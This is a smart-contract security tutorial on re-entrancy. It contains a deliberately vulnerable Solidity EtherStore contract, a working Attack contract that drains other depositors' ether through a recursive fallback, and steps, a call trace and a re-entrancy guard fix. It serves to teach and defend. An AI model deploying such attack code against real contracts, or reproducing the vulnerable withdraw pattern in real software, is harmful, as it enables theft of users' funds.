 # Re-Entrancy

#### Vulnerability <a href="#vulnerability" id="vulnerability"></a>

Let's say that contract `A` calls contract `B`.

**Reentracy** exploit allows `B` to call back into `A` before `A` finishes execution.

**EtherStore** is a contract where you can deposit and withdraw ETH. This contract is vulnerable to re-entrancy attack. Let's see why.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

1. **Deploy** EtherStore;
2. **Deposit** 1 Ether each from Account 1 (Alice) and Account 2 (Bob) into EtherStore ;
3. **Deploy Attack** with address of EtherStore;
4. Call **Attack.attack** sending 1 ether (using Account 3 (Eve)). You will get 3 Ethers back (2 Ether stolen from Alice and Bob, plus 1 Ether sent from this contract).

## **What happened?**&#x20;

Attack was able to call EtherStore.withdraw multiple times before EtherStore.withdraw finished executing.

Here is how the functions were called

* Attack.attack
* EtherStore.deposit
* EtherStore.withdraw
* Attack fallback (receives 1 Ether)
* EtherStore.withdraw
* Attack.fallback (receives 1 Ether)
* EtherStore.withdraw
* Attack fallback (receives 1 Ether)

#### Preventative Techniques <a href="#preventative-techniques" id="preventative-techniques"></a>

* Ensure all state changes happen before calling external contracts
* Use function modifiers that prevent re-entrancy

Here is a example of a re-entracy guard**:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
}
```
